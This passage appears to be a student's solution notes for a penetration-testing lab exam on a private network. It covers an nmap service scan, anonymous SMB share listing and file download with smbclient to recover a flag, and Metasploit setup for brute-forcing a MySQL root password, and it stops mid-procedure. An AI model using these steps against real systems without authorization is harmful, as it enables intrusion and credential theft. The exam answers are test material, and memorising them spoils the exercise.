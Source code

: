 Solutions:

`sudo nmap -sV 192.168.28.18` - notice the service with MySQL and then the version on the right. It said MySQL 8.0.36 (and then full form was MySQL 8.0.36-0ubuntu0-22.04.1)

Answer: MySQL 8.0.36

# QUESTION 10

Text: There is a network share available anonymously on one of the host. Find it and read the contents of a file there.

Solution:

Either look for ports 21 or 2121,  maybe FTP services. But that did not work.

`showmount -e <ip>` or `showmount -e who.lan` would hang and not work.

But `smb` can also allow anonymous shit.

Hence you can do `smbclient -L //192.168.28.1` (to list the shared folders on the network)

Then it will prompt you for password, just press Enter.

You will see some directories with $namehere but we need the one that said `SomeScrewdriverData`

Then do `smbclient //192.168.28.1/SomeScrewdriverData -c "ls"` (-c for command to be executed)

You will be prompted to enter password but just press Enter and you get the contents

Look for file called `exam.txt` in this case

Then do `smbclient //192.168.28.1/SomeScrewdriverData -c "get exam.txt"` (make sure to be in any of your directories except / on Kali)

Then run `cat exam.txt` and get the flag.

Answer: EXAM{959930}

# QUESTION 11

Text: The database from .18 can be bruteforced by an online attack using nmap wordlist. What is the password for the root user to access the database.

Solution: 

I managed to do it with `msfconsole` 

Open `msfconsole`, `search mysql`, `use auxiliary/scanner/mysql/mysql_login (or by nymber if you see it)`.

`options` or `show options`

Need to set RHOSTS, USERNAME, PASS_FILE

`set RHOSTS 192.168.28.18`

`set USERNAME root` (might be already by default)

`set PASS_FILE /usr/share/wordlists/nmap.lst`
